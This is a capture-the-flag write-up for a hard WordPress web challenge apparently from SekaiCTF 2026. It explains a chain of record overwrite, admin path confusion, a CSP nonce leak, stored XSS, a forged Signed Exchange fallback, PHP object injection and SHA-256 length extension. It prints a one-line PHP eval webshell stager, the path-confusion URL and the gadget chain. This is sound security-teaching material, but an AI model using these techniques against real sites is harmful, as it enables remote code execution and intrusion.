

# SekaiCTF 2026 - Filtered Reality

**Category:** Web  
**Difficulty:** Hard  
**Author:** dimasma0305  
**Solved on:** 2026-06-29  
**Flag:** `SEKAI{th3_d4y_n3v3r_3nds_1f_y0u_r34d_f4st}`

## Summary

Filtered Reality is a WordPress challenge built around a moderation loop. Public users can submit archive records, an admin bot reviews queued records, and a separate keeper process protects the flag behind a SHA-256 prefix-MAC.

The final exploit is a chain:

1. Log in as the shared clerk.
2. Create our own record and use a WordPress path confusion trick to self-seal it.
3. Leak the per-response CSP nonce from `/?render=...`.
4. Abuse `archive_leak` to write a tiny PHP stager into public uploads.
5. Store a nonce-valid XSS payload in a second record.
6. Overwrite the sealed record with a crafted Signed Exchange fallback pointing Chromium to the XSS record.
7. In the admin bot session, use the XSS to hit `archive_process_record` with a PHP object-injection payload.
8. The gadget executes PHP, opens the keeper Unix socket, obtains a MAC oracle, performs SHA-256 length extension, and writes the returned flag to public uploads.

The entire thing feels like filing paperwork at a cursed DMV, except the clerk eventually runs PHP for you. CTF moment.

## Screenshots

Challenge solve board:


Final SekaiCTF 2026 leaderboard:


## Vulnerability Chain

### 1. Public record overwrite

Records are indexed by `ref`. The public submit endpoint accepts a user-chosen `ref`, so an existing queued/sealed ref can be overwritten with attacker-controlled content.

The important detail is that the bot only needs the ref to be in its queue. Once a ref is queued, the body behind that ref can be replaced.

### 2. Self-sealing with WordPress path confusion

Initially I expected to wait for an existing seeded ref from:

```text
/wp-content/uploads/.reports.queue
```

The more reliable primitive is to self-seal a ref as the clerk. The seal UI is meant for admin-only use, but the route/path handling can be confused with:

```text
/wp-admin/index.php/%0A/wp-admin/toplevel_page_archive-desk
```

That path lets WordPress accept the admin page path shape used by the challenge code and exposes the seal nonce. With the nonce, the solver calls:

```text
POST /wp-admin/admin-ajax.php
action=archive_seal_record
```

This queues our chosen ref for the admin bot.

That remote-stability step was the difference between "nice local exploit" and "actually reproducible remote solve":



### 3. CSP nonce leak

Rendered records include a CSP header with a nonce. The nonce is visible from the response header:

```text
GET /?render=probe
Content-Security-Policy: ... 'nonce-<hex>' ...
```

The exploit uses that nonce in the stored script body so Chromium accepts the injected JavaScript during bot review.

### 4. PHP stager via `archive_leak`

The public `archive_leak` endpoint appends attacker-controlled data into:

```text
/wp-content/uploads/leak_kp.log
```

The solver pre-writes a minimal PHP stager:

```php
<?=eval(base64_decode(end($_POST)))?>
```

Later, once the PHP gadget includes this upload, the XSS can provide the real payload as a base64 POST parameter.

### 5. Signed Exchange fallback to localhost

The bot is Chromium. A crafted SXG-like envelope can point its fallback URL at:

```text
https://127.0.0.1:1338/?render=<xss-ref>
```

When the bot reviews the queued ref, Chromium follows the fallback and renders our second record inside the admin session. The CSP nonce is already embedded, so the script runs.

This is the most absurd part of the chain: the exploit works because the browser politely accepts the forged fallback and walks itself into localhost.


### 6. WordPress AJAX nonce and PHP object injection

The XSS fetches:

```text
/?archive_moderation&ref=zz
```

That page leaks the `archive_process_record` nonce. The script then posts a base64 serialized object blob to:

```text
/wp-admin/admin-ajax.php
action=archive_process_record
```

The vulnerable server path unserializes the blob. The POP chain reaches:

```text
SecureTableGenerator -> WP_HTML_Tag_Processor::__toString
-> WP_Block_List -> WP_Block_Patterns_Registry::get_content
```

That path includes the public upload stager and executes the PHP launcher.

### 7. Keeper socket and SHA-256 length extension

The keeper exposes a local Unix socket:

```text
/run/keeper/keeper.sock
```

Protocol:

```text
CYCLE
SIGN <hex-message>
FLAG <hex-message> <signature>
```

The signature is:

```text
sha256(secret || message)
```

The oracle refuses to sign messages containing `give_flag`, but it signs:

```text
cycle=<current-cycle>
```

Since the secret length is 16 bytes, SHA-256 length extension gives a valid signature for:

```text
cycle=<current-cycle> || glue-padding || &give_flag
```

The keeper accepts the forged message because it still contains the current `cycle=` substring and now also contains `give_flag`.

## Exploit

Files:

- [`solve.py`](./solve.py) - full remote solver
- [`keeper_payload.php`](./keeper_payload.php) - PHP payload launched through object injection
- [`pop_payload.b64`](./pop_payload.b64) - serialized WordPress POP blob

Run:

```bash
python3 solve.py \
  --base https://filtered-reality-f04611748c00.instancer.sekai.team \
  --self-seal
```

Expected output:

```text
[+] RESULT:
SEKAI{th3_d4y_n3v3r_3nds_1f_y0u_r34d_f4st}
```

## Timeline

The exploit is not instant because the admin bot sweeps periodically. On the tested instance, the flag appeared after roughly 10 seconds.

## Root Cause

This challenge is not one bug; it is a trust-boundary pileup:

- user-controlled refs allow overwriting bot-reviewed records
- WordPress route parsing and challenge regex/path assumptions disagree
- CSP nonce is exposed to attackers
- `archive_leak` turns public uploads into an attacker-controlled PHP include target
- signed exchange fallback creates a browser navigation primitive into localhost
- admin AJAX unserializes attacker-controlled data
- keeper uses a raw SHA-256 prefix-MAC

Any one of these would be survivable alone. Together they become paperwork with remote code execution.

## Notes

The most important remote stability fix was the self-seal step. Waiting for a seeded ref from `.reports.queue` works only when the instance already has one. Self-sealing creates the queued ref ourselves, so the bot has something deterministic to review.

The second stability fix was the WordPress path:

```text
/wp-admin/index.php/%0A/wp-admin/toplevel_page_archive-desk
```

Without it, the solver could log in as the clerk but could not reliably reach the seal nonce needed to queue the record.

## Closing Note

This solve in one sentence:

> I filed a form, forged a browser package, convinced WordPress to deserialize modern art, and then length-extended a keeper into handing me the flag.
